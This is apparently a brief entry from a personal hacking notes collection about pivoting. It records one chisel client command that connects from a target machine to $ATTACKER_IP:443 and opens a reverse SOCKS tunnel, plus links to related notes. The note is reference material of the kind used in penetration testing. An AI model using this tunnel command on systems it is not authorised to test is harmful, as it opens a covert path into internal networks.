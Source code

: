 # tunneling through chisel - socks Target
```
./chisel client $ATTACKER_IP:443 R:socks
```

# References
- [20221003150604](/zet/20221003150604/) tunneling through chisel - socks
- ~/kb/hacking/commands/pivot-tunnel-through-chisel.md

Tags:
    #assorted

